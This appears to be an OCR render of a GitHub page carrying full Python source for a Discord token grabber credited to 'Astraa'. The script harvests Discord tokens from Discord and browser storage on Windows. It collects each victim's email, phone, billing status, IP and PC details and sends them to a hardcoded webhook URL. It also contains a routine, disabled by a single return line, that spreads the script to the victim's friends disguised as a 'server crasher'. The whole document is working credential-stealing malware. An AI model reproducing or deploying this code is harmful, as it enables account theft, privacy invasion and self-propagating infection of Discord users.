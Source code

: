 import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "wodx"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                    "text": f"Token Grabber By Astraa",
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Grabber",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("https://discord.com/api/webhooks/928289326499000320/5lRxhjg7vjknImWWD-v-tnPJvoYSdE6Pny1il-QGSF-_kFiKNxknYdcHyFaihQrXRJzs", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
    main()
except Exception as e:
    print(e)
    pass
